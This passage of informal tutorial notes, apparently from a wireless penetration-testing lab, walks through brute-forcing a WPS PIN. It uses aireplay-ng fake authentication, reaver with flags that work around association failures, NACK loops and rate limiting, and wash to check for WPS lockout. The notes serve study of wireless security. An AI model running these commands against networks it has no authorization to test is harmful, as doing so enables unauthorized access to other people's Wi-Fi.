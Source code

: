 ▶️> aireplay-ng --fakeauth 100 -a 08:00:27:c7:e1:36 -h 02:99:11:b3:f1:94 mon0

[ -a is target access point, -h is our own mac.  To get  our own mac type 'iconfig mon0', our mac is the first 12 digits or 6 part of the unspec field. for example: unspec 00-c9-n7-98-c7-66-00-00-00-00-00-00-00 ---> this is the unspec field change it to ---> 00:c9:n7:98:c7:66]

▶️> reaver --bssid 08:00:27:c7:e1:36 --channel 11 -i mon0 -A  [-A is to specify not associate because we already associated manually]

Run these 2 commands simulteneously in split terminals.

Now we actually bypassed the failed to associate issue, in many cases this is enough and this will run a successfull attack.

lets debug the another bug we are facing, we may stuck at 0.00% attack and it will not progress, lets fix it:

▶️> reaver --bssid 08:00:27:c7:e1:36 --channel 11 -i mon0 -A -vvv  [to get detailed verbose output so that we can see what is the issue]

▶️> aireplay-ng --fakeauth 100 -a 08:00:27:c7:e1:36 -h 02:99:11:b3:f1:94 mon0

Run these 2 commands like we did before.

(The error we will se is 'wps transaction failed!')

So it will retry the last pin again and again, because it does not know whether it is correct or not.

We can see in the outputs that reaver is sending WPS NACK packets, if we do reaver --help we can see an option -N or --no-nacks that not send NACK packets.

▶️> reaver --bssid 08:00:27:c7:e1:36 --channel 11 -i mon0 -A -vvv --no-nacks

▶️> aireplay-ng --fakeauth 100 -a 08:00:27:c7:e1:36 -h 02:99:11:b3:f1:94 mon0

Run this 2 and see if it works, just look reaver stuck in a single pin or it checks different pins. Our attack will work.

Now the other issue we may face is the AP Limiting issue.

[ we may or may not face all the issues we discussed ]

▶️> wash -i mon0

▶️> reaver --bssid 08:00:27:c7:e1:36 --channel 11 -i mon0

[ here we does not add any extra arguments because here we assumes we dont face any problems, also we dont start manual association,  if any error occur we can bypass by our above methods ]

It will bruteforce the pin and will found for us.

[Note: We can stop reaver by ctrl+c at any time and can continue the stopped session later from the stopped part, just run the same reaver command again and it will ask if we want to continue the previous session]

Now the next issue may face is the wps locked. When we run wash -i mon0 we can see a section called wps locked, if the network is marked as NO then no problem, but if it is marked YES it will lock after some attempts.

When we run reaver it will not show wps locked, it will just stuck somewhere with no response, but if we run wash again we can see YES in the wps locked section, so wash detected the wps is locked. Wash will not show wps lock is enabled or disabed in thhat router, it actually does is if we run wash it shows wps is locked or not at that time of run.
